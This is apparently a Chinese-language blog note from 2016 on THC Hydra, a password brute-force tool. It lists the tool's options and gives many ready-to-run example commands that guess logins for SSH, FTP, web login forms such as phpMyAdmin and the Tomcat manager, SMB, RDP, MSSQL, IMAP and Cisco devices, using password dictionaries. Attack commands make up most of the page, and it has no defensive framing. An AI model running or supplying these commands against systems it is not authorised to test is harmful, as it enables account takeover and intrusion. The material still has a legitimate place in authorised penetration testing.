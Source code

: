 ```yaml
---
title: "Hydra"
date: 2016-07-10 14:18
---
```


## 0x00 hydra

hydra是著名黑客组织thc的一款开源的暴力密码破解工具,支持破解多种密码。

##0x01 option

```
-R          继续从上一次进度接着破解
-S          采用SSL链接
-s <PORT>   可通过这个参数指定非默认端口
-l <LOGIN>  指定破解的用户，对特定用户破解
-L <FILE>   指定用户名字典
-p <PASS>   指定密码破解，少用，一般是采用密码字典
-P <FILE>   指定密码字典
-e <nsr>     额外可选选项，n (空密碼，即不指定密碼)， s (將帳號同時當成密碼用)，r (將帳號/密碼調換使用)
-C <FILE>   使用冒号分割格式，例如“登录名:密码”来代替-L/-P参数
-M <FILE>   指定目标列表文件一行一条
-o <FILE>   指定结果输出文件
-f          在使用-M参数以后，找到第一对登录名或者密码的时候中止破解
-t <TASKS>  同时运行的线程数，默认为16
-w <TIME>   设置最大超时的时间，单位秒，默认是30s
-v / -V     显示详细过程
-SuvVd46：是多個選項的組合，分別表示：
    S：使用SSL連線
    u：每一組密碼都用帳號輪流測試，而不是每一組帳號用密碼輪流測試。
    v V d U 是訊息的詳細度
    4 6 是 IP address 格式(IPv4 或 IPv6)
server      目标ip
service     指定服务名，支持的服务和协议：telnet ftp pop3[-ntlm] imap[-ntlm] smb smbnt http[s]-{head|get} http-{get|post}-form http-proxy cisco cisco-enable vnc ldap2 ldap3 mssql mysql oracle-listener postgres nntp socks5 rexec rlogin pcnfs snmp rsh cvs svn icq sapr3 ssh2 smtp-auth[-ntlm] pcanywhere teamspeak sip vmauthd firebird ncp afp等等
```

## 0x02 use demo

### `ssh`

```
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip ssh
hydra -l 用户名 -p 密码字典 -t 线程 -o save.log -vV ip ssh
```

### `ftp`

```
hydra ip ftp -l 用户名 -P 密码字典 -t 线程(默认16) -vV
hydra ip ftp -l 用户名 -P 密码字典 -e ns -vV
```

### http

* http post form attack

```
hydra -l admin -P pass.lst -o ok.lst -t 1 -f 127.0.0.1 http-post-form “/login.php:name=^USER^&pwd=^PASS^:incorrect:H=Cookie: security=low; PHPSESSID=o7qiqd9fc1d003u9d38k64t0f4”
hydra -l admin -P passwords.lst -e ns -vV 192.168.2.10 http-post-form "/phpmyadmin/index.php:pma_username=^USER^&pma_password=^PASS^&server=1:denied"
hydra -l 用户名 -P 密码字典 -s 80 ip http-post-form "/admin/login.php:username=^USER^&password=^PASS^&submit=login:sorry password"
hydra -t 3 -l admin -P pass.txt -o out.txt -f 10.36.16.18 http-post-form "login.php:id=^USER^&passwd=^PASS^:<title>wrong username or password</title>"
```

> http-post-form or http-get-form

> incorrect表示错误猜解的返回信息提示，自定义,最好和页面返回的信息一致，不要略写，不然可能产生错报，具体原因待去看源码

**:H= 表示手工设置的Header**

* http get

```
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns ip http-get /admin/
hydra -l 用户名 -p 密码字典 -t 线程 -vV -e ns -f ip http-get /admin/index.php
```

比如爆破登陆密码: 

`phpmyadmin`

```
hydra -l root -P /root/pwd.lst -e ns -vV -f 192.168.32.6 http-get /phpmyadmin/
```

`tomcat`

```
hydra -l tomcat -P /root/top50000 -t 16 -ens -f -vV 192.168.32.6 -s 8081 http-get /manager/html
```

### `https`

```
hydra -m /index.php -l muts -P pass.txt 10.36.16.18 https
```

### `teamspeak`

```
hydra -l 用户名 -P 密码字典 -s 端口号 -vV ip teamspeak
```

### `cisco`

```
hydra -P pass.txt 10.36.16.18 cisco
hydra -m cloud -P pass.txt 10.36.16.18 cisco-enable
```

### `smb`

```
hydra -l administrator -P pass.txt 10.36.16.18 smb
```

### `pop3`

```
hydra -l muts -P pass.txt my.pop3.mail pop3
```

### `rdp`

```
hydra ip rdp -l administrator -P pass.txt -V
```

### `http-proxy`

```
hydra -l admin -P pass.txt http-proxy://10.36.16.18
```

### `imap`

```
hydra -L user.txt -p secret 10.36.16.18 imap PLAIN
hydra -C defaults.txt -6 imap://[fe80::2c:31ff:fe12:ac11]:143/PLAIN
```

### `mssql`

```
hydra -l sa -P /root/Password/pass.txt mssql://192.168.1.11 -o ok.txt
```
